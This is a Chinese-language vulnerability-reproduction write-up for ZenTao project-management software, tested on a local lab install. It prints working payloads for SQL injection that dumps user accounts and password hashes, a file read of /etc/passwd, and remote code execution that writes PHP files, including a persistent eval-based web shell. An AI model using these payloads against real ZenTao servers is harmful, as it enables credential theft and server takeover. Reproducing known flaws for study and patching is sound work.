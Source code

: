 ```yaml
---
title: 禅道全版本rce漏洞复现笔记
date: 2020-07-11 18:54:56
categories:
  - 漏洞复现
tags:
  - 漏洞
  - RCE
  - 漏洞复现
  - 禅道
  - zentao
author: Chace
---
```


## 漏洞说明

[禅道项目管理软件](https://www.zentao.net/)是一款国产的，基于LGPL协议，开源免费的项目管理软件，它集产品管理、项目管理、测试管理于一体，同时还包含了事务管理、组织管理等诸多功能，是中小型企业项目管理的首选，基于自主的PHP开发框架──ZenTaoPHP而成，第三方开发者或企业可非常方便的开发插件或者进行定制。
此次发现的漏洞正是ZenTaoPHP框架中的通用代码所造成的的，因此禅道几乎所有的项目都受此漏洞影响。本次漏洞复现以ZenTaoPMS.11.6版本作为演示

<!--more-->
## 环境搭建

下载链接：https://www.zentao.net/download/80153.html

解压安装后访问禅道主页 http://127.0.0.1/index.php

![](1.png)

查看当前版本 http://127.0.0.1:81/zentao/index.php?mode=getconfig

![](2.png)

至此环境搭建成功

## 漏洞复现
### 漏洞1 SQL注入

首先我们登录admin/CD87691043cs账户修改默认密码，创建一个普通Test0001/1qaz2wsx3edc!@#$用户并登录

>  Payload 

```
http://127.0.0.1/zentao/api-getModel-api-sql-sql=select+account,password+from+zt_user
```

Poc访问结果如下：

![](3.png)

### 漏洞2 文件读取

> Payload 

```
http://127.0.0.1/zentao/api-getModel-file-parseCSV-fileName=/etc/passwd
```

Poc访问结果如下：

![](4.png)

由于本地环境是window系统，所以没有回显，我们在xampp\zentao\module\api目录下新建一个test文件，读取

```
http://127.0.0.1/zentao/api-getModel-file-parseCSV-fileName=test
```

![](5.png)



### 漏洞3 RCE

利用上面的文件读取来执行命令

> Payload1

```http
POST /zentao/api-getModel-editor-save-filePath=1111 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: lang=zh-cn; device=desktop; theme=default; windowWidth=2426; windowHeight=796; zentaosid=vqruohhgn7qbhveakg04h9e267
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

fileContent=<?php phpinfo()?>
```

![](6.png)

先写入一个phpinfo，再读取访问

需要给物理路径加上一层才能包含成功

```
http://127.0.0.1/zentao/api-getModel-api-getMethod-filePath=1111/1
```

![](7.png)

> Payload2

```
fileContent=<?php system('whoami');?>
```

![](8.png)

![](9.png)


> Payload3(一句话)
```
fileContent=<?php file_put_contents('E://CMS/ZenTaoPMS/xampp/zentao/www/xxx.php.aaa', '<?php @eval($_REQUEST["x"]);?>');?>
```

![](10.png)

这里是window系统，所以写入绝对路径，绝对路径可以同样用`fileContent=<?php getcwd()?>`获取

```
http://127.0.0.1/zentao/xxx.php.aaa?x=phpinfo();
```

![](11.png)

*PS:最好使用linux系统安装，windows不要使用一键安装包安装，windows系统安装集成版的话根目录下的php代码好像做了限制，无法执行。*

## 参考链接

[【渗透笔记】禅道](https://www.jianshu.com/p/62bb128ecbdb)

[禅道全版本rce漏洞分析](http://foreversong.cn/archives/1410)